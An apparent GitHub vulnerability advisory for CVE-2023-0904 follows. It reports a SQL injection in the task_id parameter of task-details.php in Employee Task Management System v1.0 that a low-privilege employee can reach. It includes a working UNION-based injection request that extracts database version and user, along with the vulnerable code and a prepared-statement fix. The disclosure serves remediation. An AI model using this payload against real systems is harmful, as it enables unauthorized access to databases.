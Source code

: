 # Employee Task Management System - SQL Injection on (task-details.php?task_id=?) with low privilege authentication

### Date: 
> 17 February 2023

### CVE Assigned:
**[CVE-2023-0904](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0904)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0904), [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0904)

### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> task-details.php

> On this page task_id parameter is vulnerable to SQL Injection Attack
### Description:
> The employee task management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.s. Task Management (view and edit only assigned tasks) and Attendance (clock In and out)

> So, if the admin assigns a task to a normal employee, an employee could perform the SQL Injection by viewing that task from his/her profile. Therefore, low-privileged users could able to get the access full system.
### Proof of Concept:
> Following steps are involved:
+ Admin assigned a task to an employee (ABC)
+ ABC employee view the task and could perform the SQL injection with vulnerable parameter (task-details.php?task_id=765)

### Request:
```
GET /etms/task-details.php?task_id=765%27+and+false+union+select+1,version(),3,database(),user(),6,7,8--+- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219780565-6fb7a74b-ac7f-4ec2-997a-3c69abdf37f7.png)

### Recommendation:
> Whoever uses this CMS, should update line no (from 27 to 30) of task-details.php with the following code to avoid SQL Injection attack:
```
Old Code:
$sql = "SELECT a.*, b.fullname 
FROM task_info a
LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id)
WHERE task_id='$task_id'";
$info = $obj_admin->manage_all_info($sql);
```
```
New Code: 
$sql = $obj_admin->db->prepare("SELECT a.*, b.fullname FROM task_info a LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id) WHERE task_id=:task_id ");
$sql->bindparam(':task_id', $task_id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```

Thank you for reading
